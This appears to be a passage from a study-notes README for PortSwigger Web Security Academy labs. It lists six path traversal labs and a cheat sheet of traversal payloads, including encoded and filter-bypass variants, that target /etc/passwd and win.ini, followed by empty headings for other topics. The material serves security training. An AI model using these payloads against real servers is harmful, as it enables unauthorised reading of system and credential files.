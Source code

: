 ### 🔬 Labs

> 🔬 [Lab: File path traversal, simple case](../all-labs/README.md#simple-case)
>
> 🔬 [Lab: File path traversal, traversal sequences blocked with absolute path bypass](../all-labs/README.md#traversal-sequences-blocked-with-absolute-path-bypass)
>
> 🔬 [Lab: File path traversal, traversal sequences stripped non-recursively](../all-labs/README.md#traversal-sequences-stripped-non-recursively)
>
> 🔬 [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](../all-labs/README.md#traversal-sequences-stripped-with-superfluous-url-decode)
>
> 🔬 [Lab: File path traversal, validation of start of path](../all-labs/README.md#validation-of-start-of-path)
>
> 🔬 [Lab: File path traversal, validation of file extension with null byte bypass](../all-labs/README.md#validation-of-file-extension-with-null-byte-bypass)

### 📝 CheatSheet

```bash
# Path Traversal Cheatsheet
../../../etc/passwd
../../../../../../etc/passwd
....//....//....//etc/passwd
....\/....\/....\/etc/passwd
%2e%2e/%2e%2e/%2e%2e{FILE}
%252e%252e%252f{FILE}
%252e%252e%252f%252e%252e%252f%252e%252e%252f{FILE}

../../../windows\win.ini
..\..\..\windows\win.ini
```

---

## [Race conditions](https://portswigger.net/web-security/race-conditions)




---

## [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)




---

## [SQL injection](https://portswigger.net/web-security/sql-injection)
